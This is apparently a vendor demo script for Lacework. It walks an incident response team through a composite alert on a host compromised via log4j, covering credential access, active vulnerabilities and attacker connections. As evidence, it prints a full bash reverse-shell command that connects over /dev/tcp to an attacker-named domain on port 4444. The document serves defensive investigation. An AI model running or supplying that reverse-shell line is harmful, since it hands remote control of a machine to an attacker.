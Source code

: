 
### Reactive Threat Response

_Potentially Compromised Host_

The incident response team starts with a review of this Composite alert for Potentially Compromised Host. 

> next tab

Composite Alerts provide the high level context for multiple related events. The Lacework platform is able to deliver these low-volume, high-fidelity, high-context alerts using a combination of anomaly detection and risk context, coupled with threat intelligence from our Lacework Labs team. 

It’s a change of mindset from responding to alerts in classic rules based tools where the team would be flooded with hundreds of alerts daily, missing important events like the ones we’ll walk through here. 

> open host context panel

First, let's open up the context panel for this host so we're able to see the risk context associated with this threat. We can see that this machine is** exposed to the internet** and has been identified and has **four critical vulnerabilities**. We’ll review the vulnerabilities in a minute but first let’s review the details of the alert.

> scroll to bottom highlight k8s

Scrolling through the supporting facts, we see that local system enumeration has taken place and we also take note that **access to locally stored cloud credentials was detected**.  

As we continue through the summarized event context, under associated processes we find a call **to setup a reverse shell**, used by **attackers to establish command and control on their target host**: /bin/sh -c /bin/bash -c "TASK=iam2rds /bin/bash -i >& /dev/tcp/log4jc-attacker-904d40a6.attacker-hub.freeddns.org/4444 0>&1 

Next the incident response team takes a deeper dive into the specific vulnerabilities on this host, by opening the host resource details. 

> next tab

In the **vulnerabilities table** below the exposure graph, we can see, **two of the critical vulnerabilities are listed as active**. The ability to determine whether a vulnerability is active on a system, is a unique capability of lacework via our Code Aware Agent.** Knowing a vulnerability's active status** is significant context in** both assessing the risk of threat alerts from this host** and **prioritizing remediation efforts** as part of a larger **vulnerability management program**.

We scroll down to the tcp connections and search for the domain name for the attacker `**log4jc-attacker-904d40a6.attacker-hub.freeddns.org**`

Where we see **connections to ports 4444, 1389 and 8080** matching the **pattern for a log4j exploit**. 

We are also able to** identify the process attackers initially used to gain access to the system** 

`**java spring-boot-application_vuln[log4j]**`, which as we can see here is running as **root**. 

From this one composite alert the incident response team were able to determine that local system enumeration has taken place on this compromised host** including discovery of local cloud credentials**. The incident response team also knows that the initial compromise was from a vulnerable log4j application actively running on the device.
